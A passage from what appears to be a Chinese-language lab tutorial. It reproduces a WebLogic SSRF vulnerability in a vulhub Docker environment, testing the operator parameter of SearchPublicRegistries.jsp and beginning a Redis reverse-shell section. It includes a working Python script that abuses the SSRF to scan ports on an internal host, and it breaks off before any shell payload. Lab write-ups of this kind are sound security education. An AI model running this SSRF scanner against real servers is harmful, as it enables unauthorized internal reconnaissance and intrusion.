## 2、Weblogic漏洞复现
搭建环境参考：https://blog.csdn.net/qq_36374896/article/details/84102101

搭建好之后，访问 IP:7001/uddiexplorer/ 即可访问，如果搭建在本机， IP 就是127.0.0.1。

### 1、漏洞存在测试
Weblogic 的 SSRF 漏洞地址在 /uddiexplorer/SearchPublicRegistries.jsp ，开启Burp代理后，来到漏洞地址，随便在搜索框里输点东西，点击 search 按钮抓包

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SSRF6.png)

可以看到在请求包里的 operator 参数值为URL，说明此处可能存在SSRF漏洞

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SSRF7.png)

将 operator 参数值为改为其他URL，再次进行发包测试

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SSRF8.png)

把响应包翻到底部，可以很明显的看到靶机对我们修改后的URL进行了访问，接下来把URL端口修改一下，也就是让靶机请求一个不存在的地址

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/SSRF9.png)

这时靶机返回信息提示连接不到服务，通过上面的两步测试可以判断出该目标是存在SSRF漏洞的。

### 2、通过Redis服务反弹shell
既然想通过Redis服务反弹Shell，就需要先知道Redis服务的内网IP，这里因为是本地环境，内网IP就直接查看了，如果公网的话就要看前期信息收集怎么样了，当然爆破IP也是可以的。

进入 redis服务 的shell，查看内网IP

```
:~/vulhub/weblogic/ssrf# docker exec -it ssrf_redis_1 bash
[root@5d9f91f455b6 /]# ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:12:00:02  
          inet addr:172.18.0.2  Bcast:172.18.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:129 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:13176 (12.8 KiB)  TX bytes:0 (0.0 b)
```
知道内网IP后，就能扫描端口了，下面是我写的一个小脚本，当然用Burp也是可以的

```python
import requests
url = 'http://192.168.38.134:7001/uddiexplorer/SearchPublicRegistries.jsp?'
headers = {'Content-Type':'application/x-www-form-urlencoded'}
for port in range(1,65535):
	data = 'operator=http://172.18.0.2:{}&rdoSearch=name&txtSearchname=teamsix&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search'.format(port)
	r = requests.post(url,headers=headers,data=data)
	if 'Tried all' not in r.text:
		print('\n\n[+] {} 发现端口\n\n'.format(port))
```
执行脚本
